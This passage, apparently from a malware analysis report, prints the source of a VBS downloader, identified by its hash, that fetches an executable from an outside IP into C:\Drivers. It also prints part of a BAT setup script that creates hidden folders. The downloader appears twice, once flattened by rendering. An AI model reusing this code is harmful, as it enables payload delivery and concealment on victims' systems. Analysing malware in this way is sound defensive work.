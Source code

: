 VBS downloader component (SHA256: 4f75622c2dd839fb5db7e37fb0528e38c4eb107690f51f00b5331e863dc645d1)

[Drive.txt -> Drive.vbs CODE]





strFileURL = "http://<strong>185.203.119[.]184/Dropbox/request"</strong> 
Set oShell = CreateObject("WScript.Shell") 
     strHomeFolder = 
oShell.ExpandEnvironmentStrings("%USERPROFILE%") 
     strPath = "<strong>C:\Drivers\dphc.exe"</strong> 
On Error Resume Next 
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") 
    objXMLHTTP.open "GET", strFileURL, false 
    objXMLHTTP.send() 
If objXMLHTTP.Status = 200 Then 
Set objADOStream = CreateObject("ADODB.Stream") 
objADOStream.Open 
objADOStream.Type = 1  
objADOStream.Write objXMLHTTP.ResponseBody 
objADOStream.Position = 0     
Set objFSO = CreateObject("Scripting.FileSystemObject") 
If objFSO.Fileexists(strPath) Then WScript.Quit() 
Set objFSO = Nothing 
objADOStream.SaveToFile strPath 
objADOStream.Close 
Set objADOStream = Nothing 
End if 
Set objXMLHTTP = Nothing  




1234567891011121314151617181920212223

strFileURL = "http://<strong>185.203.119[.]184/Dropbox/request"</strong> Set oShell = CreateObject("WScript.Shell")      strHomeFolder = oShell.ExpandEnvironmentStrings("%USERPROFILE%")      strPath = "<strong>C:\Drivers\dphc.exe"</strong> On Error Resume Next Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")     objXMLHTTP.open "GET", strFileURL, false     objXMLHTTP.send() If objXMLHTTP.Status = 200 Then Set objADOStream = CreateObject("ADODB.Stream") objADOStream.Open objADOStream.Type = 1  objADOStream.Write objXMLHTTP.ResponseBody objADOStream.Position = 0     Set objFSO = CreateObject("Scripting.FileSystemObject") If objFSO.Fileexists(strPath) Then WScript.Quit() Set objFSO = Nothing objADOStream.SaveToFile strPath objADOStream.Close Set objADOStream = Nothing End if Set objXMLHTTP = Nothing  







“Setup” BAT component

[Audio.txt -> Audio.bat CODE]





Set oFile = fso.CreateTextFile("c:\Drivers\Audio.txt")
oFile.WriteLine ("echo off")
oFile.WriteLine ("md %USERPROFILE%\Adobe\Driver\pdf")
oFile.WriteLine ("md %USERPROFILE%\Adobe\Driver\dwg")
oFile.WriteLine ("md %USERPROFILE%\Daily\Backup\Files")
oFile.WriteLine ("attrib +a +h +s %USERPROFILE%\Adobe")
oFile.WriteLine ("attrib +a +h +s %USERPROFILE%\Daily")
oFile.WriteLine ("attrib +a +h +s C:\Drivers")
oFile.WriteLine ("del /f 
%USERPROFILE%\Adobe\Driver\pdf\pid.txt")
oFile.WriteLine ("del /f 
%USERPROFILE%\Adobe\Driver\dwg\pid.txt"
oFile.WriteLine ("SET /A %COMPUTERNAME%")